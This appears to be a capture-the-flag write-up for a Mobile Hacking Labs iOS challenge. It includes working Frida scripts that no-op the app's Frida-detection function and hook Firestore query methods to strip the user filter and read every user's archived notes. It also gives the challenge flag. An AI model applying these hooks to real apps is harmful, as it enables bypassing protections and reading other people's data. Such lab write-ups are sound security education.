







This is my writeup for the **Notely AI** iOS challenge by [Mobile Hacking Labs](https://www.mobilehackinglab.com/). The Frida detection bypass was quick, but getting past the admin check took a completely different approach than I expected.

---

## Initial Check

When opened on a jailbroken device with Frida installed, the app showed an alert: `Frida Framework Detected`.

Searching for the string in r2:



Cross-referencing it:



Found the responsible function at `sym.func.100006074`:



Wrote a Frida script to replace it with a no-op:

```js
var moduleName = "notelyai";
var r2_addr = ptr("0x100006074");
var r2_image_base = ptr("0x100000000");
var offset = r2_addr.sub(r2_image_base);

var moduleBase = Module.getBaseAddress(moduleName);
if (!moduleBase) throw "Module not loaded: " + moduleName;
var targetAddress = moduleBase.add(offset);

console.log("[+] moduleBase: " + moduleBase);
console.log("[+] offset: " + offset);
console.log("[+] targetAddress: " + targetAddress);

var noop = new NativeCallback(function (p0) {}, 'void', ['pointer']);
Interceptor.replace(targetAddress, noop);
console.log('[+] Replaced', targetAddress, 'with noop');
```



Initial check bypassed.

---

## Main Challenge

The app is a note-taking app with:
- Pre-stored notes
- Ability to add new notes
- AI Summarization per note
- **Archived notes** - readable only with **Administrator Privileges**

### Trying to Bypass Admin Check

Found a likely admin access function:



The decompiled code:

```swift
uint32_t method.notelyai.AuthService.checkAdminAccess(ulong param_1)
{
    // Reads two Swift key-paths, extracts a value from param_1,
    // compares it to hardcoded admin literal (0x6e696d6461 / "admin")
    if (iStack_40 == 0x6e696d6461 && iStack_38 == -0x1b00000000000000) {
        return 1; // admin
    }
    // falls through to string compare
    return uVar1 & 1;
}
```

I spent hours trying to hook and replace this. Despite many scripts and techniques, I couldn't force it to return true. If you solved this differently - message me.

After digging through writeups I found the intended approach: **hook Firestore queries**.

---

## Root Cause

The app does all access control **client-side**. The Firestore backend trusted whatever query the client sent. This makes it vulnerable to **runtime query tampering** via Frida - a classic **Broken Access Control / IDOR** (OWASP A01).

---

## Firestore on iOS

The Firebase Firestore client is exposed as Objective-C classes even in Swift apps. Frida can hook ObjC method IMPs to observe or modify queries.

Standard Firestore query in ObjC:
```objc
FIRQuery *query = [citiesRef queryWhereField:@"state" isEqualTo:@"CA"];
```

After analysis I found two fields being filtered:
1. **isarchived** - archived notes filter
2. **userid** - user scoping filter



The plan: hook `queryWhereField:isEqualTo:` and:
- Force `isarchived` to `TRUE`
- Skip the `userid` filter to get notes from all users (including admin)

---

## Final Script

```js
var moduleName = "notelyai";
var r2_addr = ptr("0x100006074");
var r2_image_base = ptr("0x100000000");
var offset = r2_addr.sub(r2_image_base);

var moduleBase = Module.getBaseAddress(moduleName);
if (!moduleBase) throw "Module not loaded: " + moduleName;
var targetAddress = moduleBase.add(offset);

var noop = new NativeCallback(function (p0) {}, 'void', ['pointer']);
Interceptor.replace(targetAddress, noop);
console.log('[+] Frida detection bypassed');

var Q = ObjC.classes.FIRQuery;
if (Q) console.log("[+] FIRQuery found!");

var sel = '- queryWhereField:isEqualTo:';
if (Q[sel]) console.log("[+] FIRQuery exposes", sel);

const imp = Q['- queryWhereField:isEqualTo:'].implementation;
const orig = new NativeFunction(imp, 'pointer', ['pointer', 'pointer', 'pointer', 'pointer']);

Interceptor.replace(imp, new NativeCallback(function (self, _cmd, fieldPtr, valPtr) {
  try {
    const field = ObjC.Object(fieldPtr).toString().toLowerCase();
    console.log("[+] Field:", field);

    if (field === 'isarchived' || field === 'archived' || field === 'is_archived') {
      const forced = ObjC.classes.NSNumber.numberWithBool_(1);
      console.log('[+] Forced isArchived => TRUE');
      return orig(self, _cmd, fieldPtr, forced);
    }

    if (field === 'userid' || field === 'ownerid' || field === 'uid') {
      console.log('[+] Skipping user-id filter');
      return self;
    }
  } catch (e) {}
  return orig(self, _cmd, fieldPtr, valPtr);
}, 'pointer', ['pointer', 'pointer', 'pointer', 'pointer']));

console.log('[+] Installed');
```

### Working



**`Flag: MHC{4rch1v3d_n0t3s_4r3_n0t_s3cur3!}`**

---

Great challenge. The key lesson: client-side access control is not access control. If the backend trusts whatever query the client sends, any attacker with Frida can read everything.
